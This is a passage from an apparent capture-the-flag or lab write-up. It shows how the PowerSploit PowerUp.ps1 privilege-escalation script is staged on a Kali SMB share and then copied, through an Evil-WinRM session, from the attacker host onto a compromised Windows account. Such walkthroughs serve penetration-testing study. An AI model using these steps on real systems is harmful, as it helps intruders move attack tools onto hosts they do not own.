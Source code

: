 Transfer files via SMB

```c
┌──(kali㉿aidenpearce369)-[~]
└─$ locate PowerUp.ps1                                                          
/usr/lib/python3/dist-packages/cme/data/powersploit/Privesc/PowerUp.ps1
/usr/share/powershell-empire/empire/server/data/module_source/privesc/PowerUp.ps1
/usr/share/windows-resources/powersploit/Privesc/PowerUp.ps1
                                                                                 
┌──(kali㉿aidenpearce369)-[~]
└─$ cp /usr/share/powershell-empire/empire/server/data/module_source/privesc/PowerUp.ps1 .
                                                                                 
┌──(kali㉿aidenpearce369)-[~]
└─$ mkdir SMBShare   
                                                                                 
┌──(kali㉿aidenpearce369)-[~]
└─$ cp PowerUp.ps1  SMBShare/

┌──(kali㉿aidenpearce369)-[~]
└─$ impacket-smbserver MONISH SMBShare 
Impacket v0.9.24 - Copyright 2021 SecureAuth Corporation

[*] Config file parsed
[*] Callback added for UUID 4B324FC8-1670-01D3-1278-5A47BF6EE188 V:3.0
[*] Callback added for UUID 6BFFD098-A112-3610-9833-46C3F87E345A V:1.0
[*] Config file parsed
[*] Config file parsed
[*] Config file parsed

...

```

Copying our scripts in a writable location,

```c
*Evil-WinRM* PS C:\Users\svc-alfresco> copy \\10.10.14.4\MONISH\PowerUp.ps1 .
*Evil-WinRM* PS C:\Users\svc-alfresco> ls


    Directory: C:\Users\svc-alfresco


Mode                LastWriteTime         Length Name
----                -------------         ------ ----
d-r---        9/23/2019   2:16 PM                Desktop
d-r---        9/22/2019   4:02 PM                Documents
d-r---        7/16/2016   6:18 AM                Downloads
d-r---        7/16/2016   6:18 AM                Favorites
d-r---        7/16/2016   6:18 AM                Links
d-r---        7/16/2016   6:18 AM                Music
d-r---        7/16/2016   6:18 AM                Pictures
d-----        7/16/2016   6:18 AM                Saved Games
d-r---        7/16/2016   6:18 AM                Videos
-a----        3/27/2022   1:18 AM         563259 PowerUp.ps1

```
